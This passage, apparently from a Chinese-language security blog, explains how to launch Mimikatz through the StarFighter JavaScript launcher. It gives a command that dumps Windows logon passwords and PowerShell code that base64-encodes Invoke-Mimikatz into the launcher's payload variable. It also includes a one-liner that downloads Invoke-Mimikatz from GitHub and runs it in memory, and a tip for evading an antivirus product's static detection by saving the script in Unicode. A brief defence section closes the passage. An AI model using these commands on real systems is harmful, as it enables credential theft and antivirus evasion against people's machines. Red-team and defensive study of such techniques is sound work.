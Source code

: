 添加导口令的操作代码：

`Invoke-Mimikatz -Command "log privilege::debug sekurlsa::logonpasswords"`

**注：**

添加log参数是为了将结果导出到文件mimikatz.log

命令如下：

```
$code = Get-Content -Path Invoke-Mimikatz.ps1
$bytes  = [System.Text.Encoding]::UNICODE.GetBytes($code);
$encoded = [System.Convert]::ToBase64String($bytes)
$encoded | Out-File 1.txt
```

将生成的1.txt中的内容替换StarFighter.js中的var EncodedPayload


**（3）远程执行powershell脚本**

powershell命令如下：

`powershell IEX "(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'log privilege::debug sekurlsa::logonpasswords'"`


作base64的代码如下：

```
$code = Get-Content -Path code.txt
$bytes  = [System.Text.Encoding]::UNICODE.GetBytes($code);
$encoded = [System.Convert]::ToBase64String($bytes)
$encoded | Out-File 2.txt
```

将生成的2.txt中的内容替换StarFighter.js中的var EncodedPayload

**注：**

某杀毒软件默认会查杀该js脚本，一个绕过静态查杀的思路（不保证有效期）：

- 将脚本保存成ASCII格式，会被查杀
- 换成UNICODE格式，不被查杀

## 0x05 防御
---

站在防御的角度，大家都会对powerShell.exe作拦截，但是这还远远不够:

**powershell runspace environment (.NET)才是重点**

具体到本文的技巧，防御方法如下：

分别对js、vbs、vba宏、sct、wsc脚本作限制

---


[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)
